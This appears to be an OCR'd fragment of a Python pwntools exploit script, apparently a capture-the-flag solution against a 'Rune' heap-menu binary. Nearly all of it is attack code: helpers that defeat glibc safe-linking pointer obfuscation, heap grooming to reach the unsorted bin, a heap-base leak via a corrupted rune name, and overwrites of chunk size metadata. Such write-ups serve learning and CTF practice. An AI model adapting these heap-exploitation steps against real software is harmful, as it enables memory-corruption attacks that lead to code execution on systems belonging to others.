 ```py

def edit(name,newname,data):
    io.recvuntil(b'Action:')
    io.sendline(b'3')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'New name:')
    io.send(newname)
    io.recvuntil(b'Rune contents:')
    io.send(data)

def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val
def obfuscate(pos,ptr):
    return (pos>>12) ^ ptr

#Chunks to create unsorted bin and heap leak
create(b'1',0x10,b'B'*0x10)
create(b'2',0x10,b'C'*0x10)
create(b'4',0x10,b'E'*0x10)
create(b'3',0x58,b'D'*0x58)

#These chunks are to make sure we can free into unsorted bin
create(b'5',0x58,b'G'*0x58)
create(b'6',0x58,b'G'*0x58)
create(b'7',0x58,b'G'*0x58)
create(b'8',0x58,b'G'*0x58)
create(b'9',0x58,b'G'*0x58)
create(b'A',0x58,b'G'*0x58)
create(b'B',0x58,b'G'*0x58)
create(b'C',0x48,b'G'*0x18)
create(b'D',0x10,b'H'*0x10)

#These are to create stack leak
create(b'E',0x10,b'H'*0x10)
create(b'F',0x10,b'H'*0x10)
create(b'G',0x10,b'H'*0x10)

#These are to allocate inside libc
create(b'K',0x20,b'I'*0x20)
create(b'H',0x20,b'I'*0x20)
create(b'I',0x20,b'I'*0x20)
create(b'J',0x20,b'I'*0x20)

#First get heap leak
delete(b'4')
edit(b'1',b'3\x003',b'A'*0x38)
leak = u64(show_rune(b'2').split(b'A'*0x18)[1][:-1].ljust(8,b'\x00'))
heap_base = leak << 12


log.info(f"Heap base: {heap_base:#x}")

#Restore the first chunk to original name. This is just so we can reuse it
edit(b'3\x003',b'1',b'a')
edit(b'1',b'3\x003',b'A'*0x10+p64(0x21) + b'A'*0x18 + p64(0x21))
edit(b'3\x003',b'1',b'a')

```